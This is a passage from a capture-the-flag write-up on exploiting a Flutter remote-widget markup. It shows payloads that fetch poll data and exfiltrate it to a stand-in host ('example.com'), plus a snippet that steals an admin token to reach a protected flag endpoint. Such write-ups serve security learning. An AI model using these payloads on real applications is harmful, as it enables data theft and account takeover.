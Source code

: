 Notice that `ApiMapper` makes a GET request to the specified `apiGet` URL. The response data is then saved in `data.<dataKey>`, as we can see from the loop accessing `data.poll_options`.

Further, the `onPressed` event handler, `api_post`, seemingly provides a mechanism for us to exfiltrate our data.

For example, the following will fetch the poll options and exfiltrate them to `example.com`.

```dart
import core.widgets;
import core.material;
import local;

widget root { loaded: false } = Container(
  color: 0xFFF,
  child:
      switch state.loaded {
        true: 
          TextButton(
            child: Text(
              text: "HI",
            ),
            onPressed: event "api_post" {
              path: "@example.com",
              body: {
                selection: data.apiData
              }
            }
          ),
        false:
          ApiMapper(
            url: "/api/poll/options?poll=4b06175d-7f78-44b1-a132-183d6707a33a",
            jsonKey: "options",
            dataKey: "apiData",
            onLoaded: set state.loaded = true
          )
      }
);
```

There were still a few problems with this, though. The `/api/flag` endpoint requires a POST request, and `ApiMapper` only does GET requests. Additionally, we needed to make this zero-click.

The first part was simple enough - we just needed to steal the admin's token to authenticate as the admin, so something like this works:

```dart
ApiMapper(
    url: '/api/token',
    jsonKey: 'new_token',
    dataKey: 'token',
    onLoaded: set state.loaded = true
)
```
